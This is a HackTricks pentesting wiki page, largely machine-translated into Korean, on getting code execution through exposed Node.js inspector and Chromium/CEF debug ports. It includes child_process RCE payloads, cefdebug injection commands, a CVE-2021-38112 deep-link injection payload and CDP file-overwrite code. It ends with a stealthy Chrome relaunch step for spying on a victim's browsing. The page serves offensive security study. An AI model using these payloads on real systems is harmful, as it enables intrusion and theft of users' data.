 # Node inspector/CEF debug abuse

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs](https://origin.nodejs.org/ru/docs/guides/debugging-getting-started): `--inspect` 스위치로 시작하면, Node.js 프로세스는 디버깅 클라이언트를 위해 대기합니다. **기본적으로**, 호스트와 포트 **`127.0.0.1:9229`**에서 대기합니다. 각 프로세스는 **고유한** **UUID**도 할당받습니다.

Inspector 클라이언트는 연결하기 위해 호스트 주소, 포트 및 UUID를 알고 지정해야 합니다. 전체 URL은 `ws://127.0.0.1:9229/0f2c936f-b1cd-4ac9-aab3-f63b0f33d55e`와 비슷하게 보일 것입니다.

{% hint style="warning" %}
**디버거가 Node.js 실행 환경에 완전한 접근 권한을 가지고 있기 때문에**, 이 포트에 연결할 수 있는 악의적인 행위자는 Node.js 프로세스를 대신하여 임의의 코드를 실행할 수 있습니다 (**잠재적인 권한 상승**).
{% endhint %}

Inspector를 시작하는 방법은 여러 가지가 있습니다:
```bash
node --inspect app.js #Will run the inspector in port 9229
node --inspect=4444 app.js #Will run the inspector in port 4444
node --inspect=0.0.0.0:4444 app.js #Will run the inspector all ifaces and port 4444
node --inspect-brk=0.0.0.0:4444 app.js #Will run the inspector all ifaces and port 4444
# --inspect-brk is equivalent to --inspect

node --inspect --inspect-port=0 app.js #Will run the inspector in a random port
# Note that using "--inspect-port" without "--inspect" or "--inspect-brk" won't run the inspector
```
When you start an inspected process something like this will appear:  
검사된 프로세스를 시작하면 다음과 같은 내용이 나타납니다:
```
Debugger ending on ws://127.0.0.1:9229/45ea962a-29dd-4cdd-be08-a6827840553d
For help, see: https://nodejs.org/en/docs/inspector
```
Processes based on **CEF** (**Chromium Embedded Framework**)는 **debugger**를 열기 위해 `--remote-debugging-port=9222` 매개변수를 사용해야 합니다 (SSRF 보호는 매우 유사하게 유지됩니다). 그러나, 그들은 **NodeJS** **debug** 세션을 부여하는 대신 [**Chrome DevTools Protocol**](https://chromedevtools.github.io/devtools-protocol/)을 사용하여 브라우저와 통신합니다. 이는 브라우저를 제어하기 위한 인터페이스이지만, 직접적인 RCE는 없습니다.

디버그된 브라우저를 시작하면 다음과 같은 것이 나타납니다:
```
DevTools listening on ws://127.0.0.1:9222/devtools/browser/7d7aa9d9-7c61-4114-b4c6-fcf5c35b4369
```
### Browsers, WebSockets and same-origin policy <a href="#browsers-websockets-and-same-origin-policy" id="browsers-websockets-and-same-origin-policy"></a>

웹 브라우저에서 열리는 웹사이트는 브라우저 보안 모델에 따라 WebSocket 및 HTTP 요청을 할 수 있습니다. **고유한 디버거 세션 ID를 얻기 위해** **초기 HTTP 연결**이 필요합니다. **동일 출처 정책**은 웹사이트가 **이 HTTP 연결**을 만들 수 없도록 **방지**합니다. [**DNS 리바인딩 공격**](https://en.wikipedia.org/wiki/DNS\_rebinding)**에 대한 추가 보안을 위해,** Node.js는 연결의 **'Host' 헤더**가 **IP 주소** 또는 **`localhost`** 또는 **`localhost6`**를 정확히 지정하는지 확인합니다.

{% hint style="info" %}
이 **보안 조치는 HTTP 요청을 보내기만 해도** 코드를 실행하기 위해 인스펙터를 악용하는 것을 **방지합니다** (이는 SSRF 취약점을 악용하여 수행할 수 있습니다).
{% endhint %}

### Starting inspector in running processes

실행 중인 nodejs 프로세스에 **신호 SIGUSR1**을 보내면 기본 포트에서 **인스펙터를 시작**하게 할 수 있습니다. 그러나 충분한 권한이 필요하므로, 이는 **프로세스 내부의 정보에 대한 권한 있는 접근을 부여할 수 있지만** 직접적인 권한 상승은 아닙니다.
```bash
kill -s SIGUSR1 <nodejs-ps>
# After an URL to access the debugger will appear. e.g. ws://127.0.0.1:9229/45ea962a-29dd-4cdd-be08-a6827840553d
```
{% hint style="info" %}
이것은 컨테이너에서 유용합니다. 왜냐하면 `--inspect`로 **프로세스를 종료하고 새로 시작하는 것**은 **옵션이 아니기 때문**입니다. **컨테이너**는 **프로세스와 함께 종료됩니다**.
{% endhint %}

### 검사기/디버거에 연결

**Chromium 기반 브라우저**에 연결하려면 Chrome 또는 Edge에 대해 각각 `chrome://inspect` 또는 `edge://inspect` URL에 접근할 수 있습니다. 구성 버튼을 클릭하여 **대상 호스트와 포트**가 올바르게 나열되어 있는지 확인해야 합니다. 이미지는 원격 코드 실행(RCE) 예제를 보여줍니다:

![](<../../.gitbook/assets/image (674).png>)

**명령줄**을 사용하여 다음과 같이 디버거/검사기에 연결할 수 있습니다:
```bash
node inspect <ip>:<port>
node inspect 127.0.0.1:9229
# RCE example from debug console
debug> exec("process.mainModule.require('child_process').exec('/Applications/iTerm.app/Contents/MacOS/iTerm2')")
```
도구 [**https://github.com/taviso/cefdebug**](https://github.com/taviso/cefdebug)는 로컬에서 실행 중인 **검사기**를 **찾고** 그 안에 코드를 **주입**할 수 있게 해줍니다.
```bash
#List possible vulnerable sockets
./cefdebug.exe
#Check if possibly vulnerable
./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a --code "process.version"
#Exploit it
./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a --code "process.mainModule.require('child_process').exec('calc')"
```
{% hint style="info" %}
**NodeJS RCE 익스플로잇은** [**Chrome DevTools Protocol**](https://chromedevtools.github.io/devtools-protocol/)에 연결된 경우 작동하지 않습니다(흥미로운 작업을 수행하기 위해 API를 확인해야 합니다).
{% endhint %}

## NodeJS 디버거/인스펙터에서의 RCE

{% hint style="info" %}
[**Electron에서 XSS로 RCE를 얻는 방법을 찾고 있다면 이 페이지를 확인하세요.**](../../network-services-pentesting/pentesting-web/electron-desktop-apps/)
{% endhint %}

Node **인스펙터**에 **연결**할 수 있을 때 **RCE**를 얻는 일반적인 방법은 다음과 같은 것을 사용하는 것입니다(이 **Chrome DevTools 프로토콜에 연결된 경우 작동하지 않을 것 같습니다**):
```javascript
process.mainModule.require('child_process').exec('calc')
window.appshell.app.openURLInDefaultBrowser("c:/windows/system32/calc.exe")
require('child_process').spawnSync('calc.exe')
Browser.open(JSON.stringify({url: "c:\\windows\\system32\\calc.exe"}))
```
## Chrome DevTools Protocol Payloads

You can check the API here: [https://chromedevtools.github.io/devtools-protocol/](https://chromedevtools.github.io/devtools-protocol/)\
In this section I will just list interesting things I find people have used to exploit this protocol.

### Parameter Injection via Deep Links

In the [**CVE-2021-38112**](https://rhinosecuritylabs.com/aws/cve-2021-38112-aws-workspaces-rce/) Rhino security discovered that an application based on CEF **registered a custom URI** in the system (workspaces://) that received the full URI and then **launched the CEF based application** with a configuration that was partially constructing from that URI.

It was discovered that the URI parameters were URL decoded and used to launch the CEF basic application, allowing a user to **inject** the flag **`--gpu-launcher`** in the **command line** and execute arbitrary things.

So, a payload like:
```
workspaces://anything%20--gpu-launcher=%22calc.exe%22@REGISTRATION_CODE
```
calc.exe를 실행합니다.

### 파일 덮어쓰기

**다운로드된 파일이 저장될 폴더**를 변경하고, **악성 코드**로 애플리케이션의 자주 사용되는 **소스 코드**를 **덮어쓰기** 위해 파일을 다운로드합니다.
```javascript
ws = new WebSocket(url); //URL of the chrome devtools service
ws.send(JSON.stringify({
id: 42069,
method: 'Browser.setDownloadBehavior',
params: {
behavior: 'allow',
downloadPath: '/code/'
}
}));
```
### Webdriver RCE 및 유출

이 게시물에 따르면: [https://medium.com/@knownsec404team/counter-webdriver-from-bot-to-rce-b5bfb309d148](https://medium.com/@knownsec404team/counter-webdriver-from-bot-to-rce-b5bfb309d148) RCE를 얻고 내부 페이지를 유출하는 것이 가능합니다.

### 사후 활용

실제 환경에서 **Chrome/Chromium 기반 브라우저를 사용하는** 사용자 PC를 **타겟팅한 후** Chrome 프로세스를 **디버깅이 활성화된 상태로 실행하고 디버깅 포트를 포트 포워딩**하여 접근할 수 있습니다. 이렇게 하면 **희생자가 Chrome으로 수행하는 모든 작업을 검사하고 민감한 정보를 훔칠 수 있습니다**.

은밀한 방법은 **모든 Chrome 프로세스를 종료**한 다음 다음과 같은 것을 호출하는 것입니다.
```bash
Start-Process "Chrome" "--remote-debugging-port=9222 --restore-last-session"
```
## References

* [https://www.youtube.com/watch?v=iwR746pfTEc\&t=6345s](https://www.youtube.com/watch?v=iwR746pfTEc\&t=6345s)
* [https://github.com/taviso/cefdebug](https://github.com/taviso/cefdebug)
* [https://iwantmore.pizza/posts/cve-2019-1414.html](https://iwantmore.pizza/posts/cve-2019-1414.html)
* [https://bugs.chromium.org/p/project-zero/issues/detail?id=773](https://bugs.chromium.org/p/project-zero/issues/detail?id=773)
* [https://bugs.chromium.org/p/project-zero/issues/detail?id=1742](https://bugs.chromium.org/p/project-zero/issues/detail?id=1742)
* [https://bugs.chromium.org/p/project-zero/issues/detail?id=1944](https://bugs.chromium.org/p/project-zero/issues/detail?id=1944)
* [https://nodejs.org/en/docs/guides/debugging-getting-started/](https://nodejs.org/en/docs/guides/debugging-getting-started/)
* [https://chromedevtools.github.io/devtools-protocol/](https://chromedevtools.github.io/devtools-protocol/)
* [https://larry.science/post/corctf-2021/#saasme-2-solves](https://larry.science/post/corctf-2021/#saasme-2-solves)
* [https://embracethered.com/blog/posts/2020/chrome-spy-remote-control/](https://embracethered.com/blog/posts/2020/chrome-spy-remote-control/)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
